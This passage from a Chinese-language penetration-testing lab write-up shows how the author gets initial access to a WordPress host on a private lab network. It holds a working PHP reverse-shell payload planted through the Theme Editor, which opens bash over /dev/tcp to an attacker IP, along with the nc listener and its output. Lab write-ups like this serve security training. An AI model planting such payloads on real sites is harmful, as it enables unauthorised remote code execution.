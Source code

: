     ![image.png](image%2015.png)
    
    发现没有上传权限，即使设置关闭了以月份创建文件夹
    
2. 寻找别的地方上传shellcode
    
    在`Appearance`→`Theme Editor` →`secret.php` 找到了可编辑保存的文件
    
    我们将shellcode输进去
    
    ```php
    <?php exec("/bin/bash -c 'bash -i >& /dev/tcp/192.168.75.131/1234 0>&1'");?>
    ```
    
    然后`save` 
    
3. kali开启监听，并且访问
    
    ```php
    http://192.168.75.137/wordpress/wp-content/themes/twentynineteen/secret.php
    ```
    
    ```php
    nc -lvp 1234                          
    listening on [any] 1234 ...
    192.168.75.137: inverse host lookup failed: Unknown host
    connect to [192.168.75.131] from (UNKNOWN) [192.168.75.137] 42312
    bash: cannot set terminal process group (48712): Inappropriate ioctl for device
    bash: no job control in this shell
    www-data@ubuntu:/var/www/html/wordpress/wp-content/themes/twentynineteen$ 
    ```
    
    获得初级shell
    

## 提权
